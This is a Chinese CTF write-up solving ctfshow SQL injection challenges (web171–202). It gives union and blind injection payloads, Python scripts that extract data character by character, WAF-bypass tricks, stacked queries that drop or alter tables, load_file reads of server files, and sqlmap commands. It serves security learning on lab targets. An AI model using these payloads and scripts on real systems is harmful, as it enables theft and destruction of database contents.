## 未过滤注入

### web171

可以用正常的联合注入，也可以用万能密码

```
1' or '1'='1'--+
1' || 1--+
```

联合注入

```
1' order by 4--+	
-1' union select 1,2,3--+
-1' union select 1,2,database()--+
-1' union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema=database())--+
-1' union select 1,2,(select group_concat(column_name)from information_schema.columns where table_name='ctfshow_user')--+
-1' union select 1,2,(select password from ctfshow_user where username = 'flag')--+
```

查询语句这里不会对我们的联合注入造成影响，只是正常的查询不会返回带flag的数据

### web172

多了个返回逻辑

```php
//检查结果是否有flag
    if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```

万能密码用不了，这里的话会对username为flag的数据进行过滤，正常打联合注入

```
-1' union select 1,2--+
-1' union select 1,(select group_concat(table_name)from information_schema.tables where table_schema=database())--+
-1' union select 1,(select group_concat(column_name)from information_schema.columns where table_name='ctfshow_user2')--+
-1' union select 1,(select password from ctfshow_user2 where username = 'flag')--+
```

这样可以打，不过如果是这样的话就不行了

```
-1' union select 1,(select username,password from ctfshow_user2 where username = 'flag')--+
```

因为查询的结果中有username为flag，上面的话是我们只是返回username为flag的password值，并不会碰到过滤，所以我们上面的语句才能查询到flag

### web173

正常打联合注入

```
-1' union select 1,2,3--+
-1' union select 1,2,database()--+
-1' union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema=database())--+
-1' union select 1,2,(select group_concat(column_name)from information_schema.columns where table_name='ctfshow_user3')--+
-1' union select 1,2,(select password from ctfshow_user3 where username='flag')--+
```

这里的话刚好flag是ctfshow开头的，所以不会被过滤掉，如果我们的flag是flag开头的话需要绕过，例如username是flag，我们可以用编码函数去绕过（使用hex或者使用reverse、to_base64等函数加密）

```
-1' union select id,hex(username),password from ctfshow_user3 where username='flag'--+
```

### web174

增加过滤了数字，打盲注就行

看看正确回显和错误回显





拿脚本跑吧，这次用二分法去跑，刚好学一下写脚本

```python
import requests

url = "http://49bd2539-814b-433b-ac46-2cee1327b9df.challenge.ctf.show/api/v4.php"

result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) //2

        #payload = f"1' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))>{mid},1,0)--+"
        #payload = f"1' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_user4'),{i},1))>{mid},1,0)--+"
        payload = f"1' and if(ascii(substr((select password from ctfshow_user4 where username='flag'),{i},1))>{mid},1,0)--+"
        print(payload)
        r = requests.get(url+"?id="+payload)
        if "admin" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)

```

### web175

这下是完全没内容了，到打时间盲注了

```
1' and sleep(4)--+
```

成功延迟



那就打时间盲注吧

```python
import requests
import time

url = "http://7a2710eb-ee46-496f-bf62-839bb89fdee0.challenge.ctf.show/api/v5.php"

result = ""
i = 0
while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2

        #payload = f"?id=1' and if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))>{mid},sleep(4),0)--+"
        #payload = f"?id=1' and if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_user5'),{i},1))>{mid},sleep(4),0)--+"
        payload = f"?id=1' and if(ascii(substr((select password from ctfshow_user5 where username='flag'),{i},1))>{mid},sleep(4),0)--+"
        print(payload)

        start_time = time.time()
        r = requests.get(url+payload)
        request_time = time.time()-start_time

        if request_time > 4 :
            print(f"成功延迟,ascii>{mid}")
            head = mid + 1
        else:
            print(f"未延迟,ascii<={mid}")
            tail = mid
    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
print(result)
```

## 过滤注入

### web176

万能密码可以做

fuzz一下发现过滤了select


在mysql中对大小写是不敏感的，只要waf没有对大小写限制就可以用大写去绕过

```
-1' union Select 1,2,3--+
-1' union Select 1,2,(Select group_concat(table_name)from information_schema.tables where table_schema=database())--+
-1' union Select 1,2,(Select group_concat(column_name)from information_schema.columns where table_name='ctfshow_user')--+
-1' union Select 1,2,password from ctfshow_user where username='flag'--+
```

### web177

fuzz一下，过滤了空格和注释符`--+`

```
1'/**/or/**/'1'='1'%23
```

### web178

这次过滤了`*`，换编码去绕过就行

`%09`绕过空格

```
1'%09or%09'1'='1'%23
```

### web179

`%09`被过滤了，`%0c`绕过空格

```
1'%0cor%0c'1'='1'%23
```

### web180

刚好看到一个fuzz单个字符的脚本，尝试着写一下

```python
import requests
import re

url="http://5855f9fc-5b45-4d37-9ec0-4785fc6143c3.challenge.ctf.show/api"
target = re.compile("admin")

right_chr = []
waf_chr = []

for i in range(32,127):
    char = chr(i)
    payload = f"?id=1'and'{char}'='{char}"

    r = requests.get(url+payload)
    w = target.search(r.text)
    if w is not None:
        right_chr.append((i,char))
    else:
        waf_chr.append((i,char))

print("未被过滤的字符: ",right_chr)
print("\n")
print("waf: ",waf_chr)
```

fuzz的结果

```
未被过滤的字符:  [(33, '!'), (34, '"'), (36, '$'), (37, '%'), (40, '('), (41, ')'), (44, ','), (45, '-'), (46, '.'), (47, '/'), (48, '0'), (49, '1'), (50, '2'), (51, '3'), (52, '4'), (53, '5'), (54, '6'), (55, '7'), (56, '8'), (57, '9'), (58, ':'), (59, ';'), (60, '<'), (61, '='), (62, '>'), (63, '?'), (64, '@'), (65, 'A'), (66, 'B'), (67, 'C'), (68, 'D'), (69, 'E'), (70, 'F'), (71, 'G'), (72, 'H'), (73, 'I'), (74, 'J'), (75, 'K'), (76, 'L'), (77, 'M'), (78, 'N'), (79, 'O'), (80, 'P'), (81, 'Q'), (82, 'R'), (83, 'S'), (84, 'T'), (85, 'U'), (86, 'V'), (87, 'W'), (88, 'X'), (89, 'Y'), (90, 'Z'), (91, '['), (93, ']'), (94, '^'), (95, '_'), (96, '`'), (97, 'a'), (98, 'b'), (99, 'c'), (100, 'd'), (101, 'e'), (102, 'f'), (103, 'g'), (104, 'h'), (105, 'i'), (106, 'j'), (107, 'k'), (108, 'l'), (109, 'm'), (110, 'n'), (111, 'o'), (112, 'p'), (113, 'q'), (114, 'r'), (115, 's'), (116, 't'), (117, 'u'), (118, 'v'), (119, 'w'), (120, 'x'), (121, 'y'), (122, 'z'), (123, '{'), (124, '|'), (125, '}'), (126, '~')]

waf:  [(32, ' '), (35, '#'), (38, '&'), (39, "'"), (42, '*'), (43, '+'), (92, '\\')]
```

这里的话还是过滤了空格的，并且也过滤了注释符号%23,试着去闭合单引号就行

```
-1'%0cunion%0cselect%0c'1','2','3
-1'%0cunion%0cselect%0c'1',database(),'3
-1'%0cunion%0cselect%0c'1',(select%0cgroup_concat(table_name)from%0cinformation_schema.tables%0cwhere%0ctable_schema=database()),'3
-1'%0cunion%0cselect%0c'1',(select%0cgroup_concat(column_name)from%0cinformation_schema.columns%0cwhere%0ctable_name='ctfshow_user'),'3
-1'%0cunion%0cselect%0c'1',(select%0cpassword%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'),'3
```

这道题一开始还用limit语句限制了返回的内容，后面把1换成-1才看到回显

### web181

#运算符优先级

这次waf给出来了

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```

完全过滤了空格的绕过方法和select关键字，然后可以用万能密码的一个变式去做

```
-1'||username='flag
```

这里比较复杂，稍微写的详细一点，这个payload是为什么呢？

我们插入到查询语句中

```sql
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '-1'||username='flag' limit 1;";
```

然后我们看一下mysql运算符的优先级



在查询语句中，因为AND的优先级高于OR，所以WHERE的表达式可以拆分为

```
(username != 'flag' AND id = '-1') || (username = 'flag')
```

`username != 'flag' AND id = '-1'` 会被优先计算，然后与 `username = 'flag'` 进行 `OR` 运算。

- 如果 `username = 'flag'` 为真，则整个条件为真，无论 `username != 'flag' AND id = -1` 是否为真。
- 因此，如果表中存在 `username='flag'` 的数据，这条查询一定会返回该数据。

### web182

这次多过滤了个flag，不过可以用like模糊匹配绕过

```
-1'||(username)like'fla_`或者是`-1'||(username)like'fla%
```

关于like中的通配符

| `%`  | 匹配零个或多个任意字符 | `'a%'` 匹配所有以a开头的字符串               |
| ---- | ---------------------- | -------------------------------------------- |
| `_`  | 匹配单个任意字符       | `'a_'` 匹配所有以a开头的两个字符长度的字符串 |

这里的话在学习MySQL的时候也学到过

### web183

查询语句

```php
//拼接sql语句查找指定ID用户
  $sql = "select count(pass) from ".$_POST['tableName'].";";
```

返回逻辑

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
```

增加过滤了`=`，`or`，`and`等字符

这里的话出现了一个查询结果

```
//返回用户表的记录总数
      $user_count = 0;
```

可以用like模糊匹配去做

```php
 $sql = "select count(pass) from (ctfshow_user)where(pass)like'ctfshow{%';";
```

返回$user_count = 1;

如果没匹配上的话就返回0，这样就可以写脚本去盲注了

```python
import requests

url = "http://5d62f6db-f813-4b1e-a2be-b100259ff40d.challenge.ctf.show/select-waf.php"

string = "1234567890abcdefghijklmnopqrstuvwxyz-}"

flag = "ctfshow{"
for i in range(100):
    for j in string:
        payload = f"(ctfshow_user)where(pass)like'{flag+j}%'"
        data = {
            "tableName" : payload
        }
        r = requests.post(url, data=data)
        if "$user_count = 1;" in r.text:
            flag +=j
            print(flag)
            break
        if j == "}":
            exit()
```

### web184

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

这道题把时间盲注的两个常用函数禁用了，我还想着上一题是不是可以用时间盲注去打来着但是没打出来

这里还禁用了where语句和一些逻辑运算符例如`&&`和`||`，上面的方法不能用了，可以打左右连接

ctfshow_user表一共有22行数据

写个payload

```
tableName=ctfshow_user as a left join ctfshow_user as b on a.pass regexp(CONCAT(char(99),char(116),char(42)))
```

这里的话将ctfshow_user表设为两个表，并通过on后面的条件连接起来，此时满足on连接条件的话会返回，为什么呢？

我们先在本地测试一下



可以看到当on的条件不一样的时候返回的结果也不一样

| `a.username = "man"` | **左表** | 左表（a）的 `username` 必须等于 `"man"`，才会尝试匹配右表（b）的所有行。 |
| -------------------- | -------- | ------------------------------------------------------------ |
| `b.username = "man"` | **右表** | 右表（b）的 `username` 必须等于 `"man"`，才会被左表（a）的行匹配。 |

所以回到刚刚的payload

```
tableName=ctfshow_user as a left join ctfshow_user as b on a.pass regexp(CONCAT(char(99),char(116),char(42)))
```

这里的话会用a表中符合regexp的pass行去匹配b表，a表所有的数据去掉连接条件的那行就是22行，然后连接条件的那行会和右表的所有内容进行连接，所以最后的结果就是21+22=43行

那么我们用regexp去进行匹配

```python
import requests

url = "http://e09f8d14-24eb-4d77-8dff-7d150969e103.challenge.ctf.show/select-waf.php"

flag = "ctfshow{"
for i in range(9,50):
    for j in range(32,127):
        payload = f"ctfshow_user as a left join ctfshow_user as b on (substr(a.pass,{i},1)regexp(char({j})))"
        data = {
            "tableName" : payload,
        }
        print(data)
        r = requests.post(url, data=data)
        if "$user_count = 43;" in r.text:
            if chr(j) != ".":
                flag += chr(j)
                print(flag)
                break
            if chr(j) == "}":
                exit()
```

这里的话需要注意要排除小数点，因为小数点在regexp的正则里小数点能匹配除 "\n" 之外的任何单个字符

其实这道题还能用group by 结合having去打通配

where也过滤了，用having代替，引号被过滤了，那么字符串部分可以采用16进制绕过

```
select count(*) from ctfshow_user group by pass having pass like 0x63746673686f777b25;
```

脚本

```python

import requests

url = "http://e09f8d14-24eb-4d77-8dff-7d150969e103.challenge.ctf.show/select-waf.php"

letter = "0123456789abcdefghijklmnopqrstuvwxyz-{}"
def asc2hex(s):
    a1 = ''
    a2 = ''
    for i in s:
        a1+=hex(ord(i))
    a2 = a1.replace("0x","")
    return a2
#将输入的字符转化成十六进制
#通过迭代字符串 s 中的每个字符，用 ord() 获得其 ASCII 值，然后用 hex() 转换为十六进制，并去除前缀 0x，最后拼接成一个连续的字符串。
flag = "ctfshow{"
for i in range(0,100):
    for j in letter:
        temp_flag = flag+j
        data ={
            "tableName":"ctfshow_user group by pass having pass like ({})".format("0x"+asc2hex(temp_flag+"%"))
        }
        #print(data["tableName"])

        r = requests.post(url=url,data=data)
        if "$user_count = 1;" in r.text:
            flag += j
            print(flag)
            break
        else:
            continue
```

因为这里匹配出来的结果只会有一行，所以筛选条件就是$user_count = 1

### web185

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

这道题多过滤了数字，这时候怎么去构造呢？

这里的话需要用true去构造字符

true=1，false=0，然后true+true=2，用true的自增和相加可以构造字符

例如c的十六进制是0x63，十进制是90

`0x63 我们可以写成 false，‘x’,true+true+true+true+true+true,true+true+true`然后用concat去连接

```
 concat(false,‘x’,(true+true+true+true+true+true),(true+true+true))
```

但是这里过滤了单引号，得去构造x，还是一样的，用十六进制或者十进制去构造

x 的十进制为120，所以我们添加120个true相加就可以了，但是我们也可以把120拆分为1，2，0，然后构造*true、true+true、false*

所以最后c的构造就是

```
concat(false,char(concat(true,(true+true),false)),(true+true+true+true+true+true),(true+true+true)
```

但是发现其实跑不出来，为什么，因为c的十六进制0x63为字符串，mysql只支持十六进制的数字，不支持字符串

所以换成十进制去构造

```
concat((power((true+true+true),(true+true))),(power((true+true+true),(true+true))))
```

所以我们构造payload

```
tableName=ctfshow_user group by pass having pass regexp(concat(char(concat((power((true+true+true),(true+true))),(power((true+true+true),(true+true))))),char(concat(true,true,(true+true+true+true+true+true))),char(concat(true,false,(true+true)))))
```

解释后的payload

```
tableName=ctfshow_user group by pass having pass regexp(ctf)
```

结果返回



意味着匹配成功了，我们直接写脚本

```python
import requests

url = "http://e583b83c-af4c-444c-8de2-acd5f5af2b6d.challenge.ctf.show/select-waf.php"

strlist = '{0123456789-abcdefghijklmnopqrstuvwxyz_}'

flag = 'ctfshow'
flagstr = ''
strdict = {'0':'false,','1':'true,','2':'(true+true),',
           '3':'(true+true+true),','4':'(true+true+true+true),',
           '5':'(true+true+true+true+true),','6':'(true+true+true+true+true+true),',
           '7':'(power((true+true),(true+true+true))-true),',
           '8':'(power((true+true),(true+true+true))),',
           '9':'(power((true+true),(true+true+true))+true),'
           }
for i in range(100):
    for j in strlist:
        m = ''
        for x in str(ord(j)):
            m += strdict[x]
        m = 'char(concat('+m[:-1]+')),'#去除末尾的分号

        payload = f'ctfshow_user group by pass having pass regexp(concat({flagstr+m[:-1]}))'
        data = {
            'tableName' : payload,
        }
        print(payload)
        r = requests.post(url=url,data=data)
        if '$user_count = 1;' in r.text:
            print(f'---------------匹配成功---------------')
            flag += j
            flagstr += m
            print(flag)
            break
    if flag[-1] == '}':
        exit()
```

我的脚本相对来说更复杂一点，包师傅的脚本就相对来说要简单很多

```python
import string
import requests

url = 'http://50a0761d-8695-48df-bfe5-9410e5169332.challenge.ctf.show/select-waf.php'
payload = 'ctfshow_user group by pass having pass like(concat({}))'
target = 'ctfshow{'


def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
        return num


def createStrNum(c):
    str = ''
    str += 'chr(' + createNum(ord(c[0])) + ')'
    for i in c[1:]:
        str += ',chr(' + createNum(ord(i)) + ')'
    return str


uuid = string.ascii_lowercase + string.digits + "-{}"

for i in range(1, 50):
    for j in uuid:
        poc = payload.format(createStrNum(target + j + "%"))
        # print(poc)
        data = {
            'tableName': poc
        }
        r = requests.post(url, data)
        if "$user_count = 0;" not in r.text:
            target += j
            print(target)
            if j == '}':
                exit()
            break

```

### web186

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

多过滤了百分号，大小于号和`^`字符，但是不影响我们的payload

### web187

#sql的md5

需要传username为admin，然后password的话会md5加密，这里的话用md5去碰撞就行



```
admin/ffifdyop
```

flag在响应里

### web188

#sql弱比较



username=0 password=0

在官方手册中，如果在比较操作中涉及到字符串和数字，SQL 会尝试将字符串转换为数字，那么只要字符串不是以数字开头，比较时都会转为数字 0 。

sql里，数字和字符串的匹配是弱类型比较，字符串会转换为数字，如0==0a，那么如果输入的username是0，则会匹配所有开头不是数字或者为0的字符串和数字0。

然后再来看password的判断，也是弱类型的比较，那么也直接输入0，尝试登录一个用户名和pass的开头是字母或是0的用户。

### web189

flag在api/index.php文件中

去读取那个index.php文件，且注入点在username

username=0、password=0时，返回“密码错误”。（说明存在用户，但是密码错误）
username=1、password=0时，返回“查询失败”。（说明用户不存在）

回显不一样的话打盲注就行

```
if(substr(load_file('/var/www/html/api/index.php'),{i},1)='{j}',1,0)
```

利用0和1的不同回显去打盲注，写脚本

```python
import requests

url = "http://ca1b1a1d-3cf1-4efa-9a37-8ca521e4d226.challenge.ctf.show/api/"


flag = ""
for i in range(257,500):#这是flag在文件中的起始位置
    for j in range(127):
        x = chr(j)
        payload = f"if(substr(load_file('/var/www/html/api/index.php'),{i},1)='{x}',1,0)"
        data = {
            "username" : payload,
            "password" : 0
        }
        print(payload)
        r = requests.post(url, data=data)
        if "8d25" in r.text:
            print(f"----------{x} is right----------")
            flag += chr(j)
            print(flag)
            break
    if "}" in flag:
        print(flag)
        exit()
```

## 布尔盲注

### web190

字符型的盲注

```
admin/0 密码错误
1/0 用户名不存在

admin' and 1#/0密码错误
admin' and 0#/0用户名不存在
```

直接写脚本

```python
import requests

url = "http://50b3216b-0be6-449d-9f3a-0ce96856ca85.challenge.ctf.show/api/"

test = ""
i = 0

while True:
    i = i +1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2

        payload = f"admin' and if(ascii(substr((select f1ag from ctfshow_fl0g),{i},1))>{mid},1,0)#"
        data = {
            "username": payload,
            "password": 0,
        }
        print(data)
        r = requests.post(url, data=data)
        if "u8bef" in r.text:
            head = mid + 1
        else :
            tail = mid
    if head != 32 :
        test += chr(head)
        print(test)
    else :
        break
print(test)
```

### web191

禁用了ascii，可以用ord绕过，这里数据库都没变

```python
import requests

url = "http://d4303d22-ec75-4911-8e63-4c300d980ac6.challenge.ctf.show/api/"
i = 0

flag = ""

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2
        #payload = f"admin' and if(ord(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))>{mid},1,0)#"
        #payload = f"admin' and if(ord(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{i},1))>{mid},1,0)#"
        payload = f"admin' and if(ord(substr((select f1ag from ctfshow_fl0g),{i},1))>{mid},1,0)#"

        data = {
            "username" : payload,
            "password" : 0,
        }
        print(data)
        r = requests.post(url, data=data)
        if "u8bef" in r.text:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        flag += chr(head)
        print(flag)
    else :
        break
print(flag)
```

### web192

过滤掉了，但是也可以不用转码函数去做

在 SQL 查询中，字符串比较默认是 **不区分大小写** 的。所以这里好像需要转小写

因为是二分法，`_`的ascii字符是`95`，很容易被跳过

```python
import requests

url = "http://b3cfa897-d763-4f0e-81e8-323a934700e7.challenge.ctf.show/api/"
i = 0

flag = ""

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) // 2

        #payload = f"admin' and if(substr(database(),{i},1)>chr({mid}),1,0)#"
        #payload =  f"admin' and if(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1)>chr({mid}),1,0)#"
        #payload = f"admin' and if(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{i},1)>chr({mid}),1,0)#"
        payload = f"admin' and if(substr((select f1ag from ctfshow_fl0g),{i},1)>chr({mid}),1,0)#"
        data = {
            "username" : payload,
            "password" : 0,
        }
        print(data)
        r = requests.post(url, data=data)
        if "u8bef" in r.text:
            head = mid + 1
        else :
            tail = mid
    if head != 32:
        flag += chr(head)
        print(flag)
    else :
        break
print(flag.lower())
```

可以使用 `BINARY` 关键字强制区分大小写或者手动改一下

如果硬要识别出来就要写遍历了，但是那样子不够快

### web193&194

这里过滤了substr，也是有代替函数的，当然也可以用like和通配符去匹配

like+通配符

```python
import requests

url = "http://cf1fb41b-240d-4778-8ae7-c9442519fb32.challenge.ctf.show/api/"

dict = "abcdefghijklmnopqrstuvwxyz0123456789-,{}_"
flag = ""

for i in range(1,50):
    sign = 0
    for j in dict:
        #payload = "admin' and (select database()) like '{}'#".format(flag+j+'%')
        #payload = "admin' and (select group_concat(table_name)from information_schema.tables where table_schema=database()) like '{}'#".format(flag+j+'%')
        #payload = "admin' and (select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flxg') like '{}'#".format(flag+j+'%')
        payload = "admin' and (select f1ag from ctfshow_flxg) like '{}'#".format(flag+j+'%')
        data = {
            "username": payload,
            "password": 0,
        }
        print(payload)
        r = requests.post(url, data=data)
        if "\\u5bc6\\u7801\\u9519\\u8bef" in r.text:
            flag += j
            sign = 1
            print(flag)
            break
    if sign == 0:
        break
print(flag)
```

替换函数mid

```python
import requests

url = "http://cf1fb41b-240d-4778-8ae7-c9442519fb32.challenge.ctf.show/api/"

dict = "abcdefghijklmnopqrstuvwxyz0123456789-,{}_"
flag = ""

for i in range(1,50):
    sign = 0
    for j in dict:
        payload = f"admin' and if(mid(database(),{i},1)='{j}',1,0)#"
        #其他的payload就自己改吧
        data = {
            "username": payload,
            "password": 0,
        }
        print(payload)
        r = requests.post(url, data=data)
        if "\\u5bc6\\u7801\\u9519\\u8bef" in r.text:
            flag += j
            sign = 1
            print(flag)
            break
    if sign == 0:
        break
print(flag)
```

替换函数left

```python
import requests

url = "http://efe36a06-d5e8-4069-a729-598ea9a984e8.challenge.ctf.show/api/"

dict = "abcdefghijklmnopqrstuvwxyz0123456789-,{}_"
flag = ""

for i in range(1,50):
    sign = 0
    for j in dict:
        payload = "admin' and if(left(database(),{0})='{1}',1,0)#".format(i,flag+j)
        data = {
            "username": payload,
            "password": 0,
        }
        print(payload)
        r = requests.post(url, data=data)
        if "\\u5bc6\\u7801\\u9519\\u8bef" in r.text:
            flag += j
            sign = 1
            print(flag)
            break
    if sign == 0:
        break
print(flag)
```

方法还是很多的

## 堆叠注入

### web195

还是得登录成功才有flag

直接分号执行多条语句，更新ctfshow_user用户的密码

```
0;update`ctfshow_user`set`pass`=1
```

### web196

这里限制了username的长度，刚刚的payload肯定是超过了

这道题目的select虽然写的是被过滤了，但是实际并没有被过滤。

非预期：

判断条件满足的设定是$row[0]==$password，row 存储的是结果集中的一行数据，row[0]就是这一行的第一个数据。既然可以堆叠注

入，就是可以多语句查询，$row应该也会逐一循环获取每个结果集。

那么可以输入username为1;select(1)，password为1。执行 `SELECT(1);` 后，数据库会返回一个结果集，其中包含一行一列，值为 `1`。当row 获取到第二个查询语句 select(1) 的结果集时，即可获得row[0]=1，那么password输入1就可以满足条件判断。同样输入其他密码也可以



官方解：

```
username=0(用弱比较去匹配用户名)
password=passwordAUTO(之前泄露的原始密码)
```

### web197

过滤了select，但是没有长度限制，那我们可以对表进行一些操作

```
username=0;drop table ctfshow_user; create table ctfshow_user(`username` varchar(255),`pass` varchar(255)); insert ctfshow_user(`username`,`pass`) values(1,2)
password随便填，不影响
```

这里直接删掉之前的表去创建新的表，然后插入数据就行

或者可以用alter

```
0;alter table ctfshow_user drop pass;alter table ctfshow_user add pass int default 1
```

### web198

不能用drop，create，set的话，直接插入数据就行

```
username=0;insert ctfshow_user(`username`,`pass`) value(1,2)
password随便设置
```

然后传1/2去登录就行

### web199&200

过滤了括号，前面的方法走不通

利用`show`。根据题目给的查询语句，可以知道数据库的表名为ctfshow_user，那么可以通过`show tables`，获取表名的结果集，在这个结果集里定然有一行的数据为ctfshow_user。

```
username=0;show tables
password=ctfshow_user
```

这么看来的话好像前面几个题都可以这么做

不太想做sqlmap的，先不写

## 练习sqlmap

好吧还是不太想写，把做的搬过来了

### web201

#设置UA头和referer头



这里的话是需要我们学习sqlmap 的语法和使用

```
使用--user-agent 指定agent
 --user-agent=sqlmap 
 使用--referer 绕过referer检查
 --referer="ctf.show"
```

我们先拿第一题来具体学习一下注入过程和sqlmap的使用顺序

注入过程

- 判断是否存在sql注入漏洞

```
python3 sqlmap.py -u http://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show/api/?id=1 –user-agent sqlmap –referer https://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show:8080/sqlmap.php
```

然后我们来分析一下测试过程的一些询问和内容



我们分析里面主要的内容

```
[23:23:58] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
GET 参数 'id' 被判断为可注入，且具体注入方式为基于布尔值的盲注。
[23:23:58] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
扩展的启发式测试表明，后端数据库管理系统（DBMS）可能是 MySQL。
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
似乎后端数据库管理系统是 MySQL。您是否希望跳过适用于其他数据库管理系统的测试有效载荷？输入 [Y/n] 表示选择是或否。选择 'y' 表示跳过。
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
对于剩余的测试，您是否希望包括所有针对 MySQL 的测试，并扩展预设的等级（1）和风险（1）值？输入 [Y/n] 表示选择是或否。选择 'y' 表示包含所有测试。
```



```
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
GET 参数 'id' 存在漏洞。您是否希望继续测试其他参数（如果有的话）？输入 [y/N] 表示选择是或否。选择 'y' 意味着继续进行其他参数的测试。
```

这里的话其实就是和英语翻译是一样的，理解了每句话的意思然后做出需要的选择，就可以了

- 获取所有数据库名字

```
python3 sqlmap.py -u http://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show/api/?id=1 –dbs –user-agent sqlmap –referer https://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show:8080/sqlmap.php
```



找到数据库名了，显然第一个就是我们需要的数据库

- 获取当前数据库名

```
python3 sqlmap.py -u http://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show/api/?id=1 –current-db –user-agent sqlmap –referer https://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show:8080/sqlmap.php
```



和我们想的是一样的

- 获取数据库下的数据表

```
python3 sqlmap.py -u http://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show/api/?id=1 -D ctfshow_web –tables –user-agent sqlmap –referer https://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show:8080/sqlmap.php
```



- 获取表下的列名

```
python3 sqlmap.py -u http://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show/api/?id=1 -D ctfshow_web -T ctfshow_user –columns –user-agent sqlmap –referer https://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show:8080/sqlmap.php
```



- 导出数据

```
python3 sqlmap.py -u http://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show/api/?id=1 -D ctfshow_web -T ctfshow_user -C pass –dump –user-agent sqlmap –referer https://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show:8080/sqlmap.php
```



然后就拿到我们的flag了

sqlmap基于GET传参的注入

1.测试注入点以及是否存在注入

python3 sqlmap.py -u [url+参数]

2.爆出所有数据库

pyhton3 sqlmap.py -u [url+参数] –dbs

3.爆出当前使用的数据库

python3 sqlmap.py -u [url+参数] –current-db

4.爆出当前数据库下的表名

python3 sqlmap.py -u [url+参数] -D [数据库名] –tables

5.爆出所有表的字段名

python3 sqlmap.py -u [url+参数] -D [数据库名] -T [表名] –columns

6.爆出字段中的数据

python3 sqlmap.py -u [url+参数] -D [数据库名] -T [表名] -C [字段名] –dump

关于UA头的设置和referer的设置

–user-agent sqlmap

- `User-Agent` 头通常由浏览器或其他客户端软件发送，用于标识请求的来源设备和软件,通过设置 `--user-agent`，可以模拟特定的浏览器或客户端类型,某些网站可能会阻止来自已知爬虫或自动化工具（如 sqlmap）的请求。通过伪造 `User-Agent`，可以绕过这些安全检查

–referer https://8b0e6f9f-0bc1-499f-b9f5-30a3d1b6d4c2.challenge.ctf.show:8080/sqlmap.php

- 伪造 `Referer` 头可以用于模拟来自特定页面或来源的请求，一些网站可能会检查 `Referer` 头，以确保请求来源于允许的页面。如果没有合适的 `Referer`，网站可能会拒绝请求或返回不同的内容。伪造 `Referer` 头可以帮助绕过这些安全机制。通过设置特定的 `Referer` 头，攻击者可以让目标网站认为请求是来自合法用户的正常操作。这有助于隐藏攻击行为。

```
bash
--user-agent sqlmap --referer ctf.show这样也是可以的，只要来源是ctf.show就可以了
```

### web202

#–data参数



POST注入的方式

 sqlmap.py -r 请求包text文件 -p 指定的参数 –tables
​ sqlmap.py -u url –forms 自动判断注入
​ sqlmap.py -u url –data=”指定参数”

